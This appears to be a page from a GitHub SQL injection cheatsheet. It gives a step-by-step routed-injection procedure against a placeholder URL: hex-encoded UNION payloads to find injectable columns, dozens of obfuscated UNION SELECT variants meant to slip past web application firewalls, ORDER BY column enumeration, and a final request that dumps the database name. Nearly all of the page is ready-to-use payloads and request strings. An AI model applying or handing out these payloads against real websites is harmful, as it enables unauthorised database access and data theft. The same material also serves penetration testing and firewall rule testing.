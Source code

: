 ## Routed queries (advaced WAF bypass)
If the WAF is very hard to bypass using the given queries, the routed ones might help you.

## Identifying how many columns the payload has

```http://domain.com/index.php?id=-1 Union Select 0x3127,2,3,4``` 0x3127 = 1' (0xHEX converted)  
```http://domain.com/index.php?id=-1 Union Select 1,0x3227,3,4``` 0x3227 = 2' (0xHEX converted)  
```http://domain.com/index.php?id=-1 Union Select 1,2,0x3327,4``` 0x3327 = 3' (0xHEX converted)  
```http://domain.com/index.php?id=-1 Union Select 1,2,3,0x3427``` 0x3427 = 4' (0xHEX converted)  

If any of the payloads gives error, it means that the respective column number is vulnerable to be dumped, for example. In our case, the second payload gives error, which means, we can start dumping the second column.

If the website has WAF enabled, you can use the following WAF-based UNION queries. Simply replace ```Union Select``` with the following payloads:  

```
/*!50000%55nIoN*/ /*!50000%53eLeCt*/  
%55nion(%53elect 1,2,3)  
union+distinctROW+select+1,2,3,4-- -  
#?uNiOn + #?sEleCt  
#?1q %0AuNiOn all#qa%0A#%0AsEleCt  
/*!%55NiOn*/ /*!%53eLEct*/  
+un/**/ion+se/**/lect  
+?UnI?On?+'SeL?ECT?  
(UnIoN)+(SelECT)+1,2,3,4-- -  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
%55nion(%53elect 1,2,3,4)-- -  
/**//*!12345UNION SELECT*//**/  
/**//*!50000UNION SELECT*//**/  
/**/UNION/**//*!50000SELECT*//**/  
/*!50000UniON SeLeCt*/  
union /*!50000%53elect*/  
/*!u%6eion*/ /*!se%6cect*/  
/*--*/union/*--*/select/*--*/  
union (/*!/**/ SeleCT */ 1,2,3,4)-- -  
/*!union*/+/*!select*/  
/**/uNIon/**/sEleCt/**/  
+%2F**/+Union/*!select*/  
/**//*!union*//**//*!select*//**/  
/*!uNIOn*/ /*!SelECt*/  
/**/union/*!50000select*//**/  
0%a0union%a0select%09  
%0Aunion%0Aselect%0A  
uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/  
%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/  
/*!union*//*--*//*!all*//*--*//*!select*/  
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
union+sel%0bect  
+#1q%0Aunion all#qa%0A#%0Aselect  
%23xyz%0AUnIOn%23xyz%0ASeLecT+  
%23xyz%0A%55nIOn%23xyz%0A%53eLecT+  
union(select(1),2,3)
uNioN (/*!/**/ SeleCT */ 11)  
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/  
%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/  
+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C  
/*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
+/*!UnIoN*/+/*!SeLeCt*/+  
/*!u%6eion*/ /*!se%6cect*/  
uni%20union%20/*!select*/%20  
union%23aa%0Aselect  
/**/union/*!50000select*/  
/^****union.*$/ /^****select.*$/  
/*union*/union/*select*/select+  
/*!50000UnION*//*!50000SeLeCt*/  
%252f%252a*/union%252f%252a /select%252f%252a*/  
```

In this case I used the first payload ```/*!50000%55nIoN*/ /*!50000%53eLeCt*/```, so the final payload would be:  
```http://domain.com/index.php?id=-1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,0x3227,3,4```  
The payload bypasses WAF and gives SQL Error, which means the 2nd column is vulnerable to be dumped.  

## Finding the amount of columns (ORDER BY)

Since we know the second column was vulnerable, we are going to dump it using ORDER BY queries.  

Below are Union Distincs queries, which we can use for further enumerating:

```
and 0e0union distinctROW select 1,2,3,4  
and .0unIon distincrOw /*!50000sElect*/ 1,2,3,4  
AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4  
and mod(9,9) UNION SELECT 1,2,3,4  
'-,1union distinctrow%23aaaaaaaaaaaaaaa%0a select 1,2,3,4  
.0union distinct/**_**/Select 1,2,3,4  
union distinct selec%54 1,2,3,4  
UniOn DISTINCTROW sEleCt 1,2,3,4  
union distinct select 1,2,3,4  
union distinctROW select 1,2,3,4  
```

In our case the following payload does the job:  
```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4```  

Replacing the number, so the final payload would be:  
```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x32204f524445522042592031,3,4```  where 0x32204f524445522042592031 = 2 ORDER BY 1 (0xHEX converted)  

The payload musn't show error. Keep increasing the number by 1 until you see an error. Replace the 0xHEX value on the payload with the following hex, until you will receive an error.

```
2 ORDER BY 1 -> 0x32204f524445522042592031  
2 ORDER BY 2 -> 0x32204f524445522042592032  
2 ORDER BY 3 -> 0x32204f524445522042592033  
2 ORDER BY 4 -> 0x32204f524445522042592034  
2 ORDER BY 5 -> 0x32204f524445522042592035  
2 ORDER BY 6 -> 0x32204f524445522042592036  
2 ORDER BY 7 -> 0x32204f524445522042592037  
2 ORDER BY 8 -> 0x32204f524445522042592038  
```
and so on...

In our case, **2 ORDER BY 8** is the smallest number which gives an SQL Syntax error, which means the database has 7 columns.

## Finding the number of column to dump data

The following queries are called **Union Distinct Rows** queries. Because the 7th column is vulnerable, we will add number 7 in front of each payload:

| Union Distinct Rows queries                                       | Queries converted to 0xHEX |
| ----------------------------------------------------------------- | -------------------------- |
| 2 and 0e0union distinctROW select 1,2,3,4,5,6,7                   | 0x3720616e6420306530756e696f6e2064697374696e6374524f572073656c65637420312c322c332c342c352c362c37  |
| 2 and .0unIon distincrOw /*!50000sElect*/ 1,2,3,4,5,6,7           | 0x3720616e64202e30756e496f6e2064697374696e63724f77202f2a21353030303073456c6563742a2f20312c322c332c342c352c362c37  |
| 2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,6,7  | 0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c362c37 |
| 2 '-,1union distinctrow%23aaaaaaaaaaaaaaa%0a select 1,2,3,4,5,6,7 | 0x3720272d2c31756e696f6e2064697374696e6374726f772532336161616161616161616161616161612530612073656c65637420312c322c332c342c352c362c37 |
| ```2 .0union distinct/**_**/Select 1,2,3,4,5,6,7```               | 0x37202e30756e696f6e2064697374696e63742f2a2a5f2a2a2f53656c65637420312c322c332c342c352c362c37 |
| 2 union distinct selec%54 1,2,3,4,5,6,7                           | 0xa3720756e696f6e2064697374696e63742073656c656325353420312c322c332c342c352c362c37 |
| 2 UniOn DISTINCTROW sEleCt 1,2,3,4,5,6,7                          | 0x3720556e694f6e2044495354494e4354524f572073456c65437420312c322c332c342c352c362c37 |
| 2+union+distinct+select+1,2,3,4,5,6,7                             | 0x372b756e696f6e2b64697374696e63742b73656c6563742b312c322c332c342c352c362c37 |
| 2+union+distinctROW+select+1,2,3,4,5,6,7                          | 0x372b756e696f6e2b64697374696e6374524f572b73656c6563742b312c322c332c342c352c362c37 |

In our case I will use the 3rd payload, so copy the 0xHEX converted payload and use it in the following payload:  
```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c362c37,3,4```  

On the response, a number will be displayed, which tells us the vulnerable column. In this case, number 6 is vulnerable.

## Dumping data from the column

Because we used the payload ```2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,6,7```, and because the number 6 was vulnerable (on the website response), our next payload will be (simply replace number 6 with concat(), DIOS, or simple dumping queries):

```2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,database(),7```

Convert it to 0xHEX and paste in in the next payload:  

```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c646174616261736528292c37,3,4``` 

We successfuly dumped the database name.

I am using **database()**, because I want to keep the cheatsheet as easy as possible, however you can use [DIOS Payloads](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Error%20Based%20SQLi#dumping-with-dios). The technique is the same, but in the end, convert the whole payload to 0xHEX.
